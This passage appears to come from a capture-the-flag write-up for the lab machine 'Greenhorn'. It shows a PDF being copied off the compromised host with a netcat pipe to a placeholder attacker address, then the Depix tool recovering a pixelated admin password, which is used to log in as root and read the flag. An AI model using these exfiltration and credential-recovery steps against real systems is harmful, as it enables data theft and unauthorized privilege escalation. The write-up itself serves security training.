 ```bash
nc -lvnp <PORT> > 'Using OpenVAS.pdf'
```

Then we can send the file over from `junior`'s terminal. Essentially we are reading the file content and through the Netcat connection, we 'write' it to the file we specify with the same name on our local machine.

```bash
cat 'Using OpenVAS.pdf' | nc <YOURIPADDRESS> <PORT>
```

When it finishes transferring, we can close the listening connection which should also terminate the Netcat command on `junior`'s terminal. Opening the pdf reveals that the admin has shared his password with `junior` so that he can use OpenVAS with admin privileges. However, the password is pixelated and unreadable. If we search for a way to unpixelate credentials we will find this tool: Depix. It will attempt to decode the pixelated blocks of plain text by matching them to reference photos included in the repository.

Clone the git repository and navigate into the folder.

```bash
git clone https://github.com/spipm/Depix.git
cd Depix
```

Before we can use the tool we will have to create an image file that contains only the pixelated credentials and excludes the rest of the text in the pdf. By right-clicking on the pixelated image in the pdf we can save it on our machine as `image.png`.

Now we can execute the depixelization tool with the following command:

```bash
python3 depix.py -p <PATHTOIMAGE>/image.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o <DESIREDPATH>/output.png
```

We have found that the hidden password was `sidefromsidetheothersidesidefromsidetheotherside`. Now we can try to use this to escalate our privileges and switch to the root user account.

```bash
su root
```

**Root Login Output:**

```
junior@greenhorn:~$ su root
Password: sidefromsidetheothersidesidefromsidetheotherside
root@greenhorn:/home/junior# 
```

We have successfully gotten a session as root and can navigate to the root directory to find the root flag!

```bash
cat /root/root.txt
```

## Screenshots
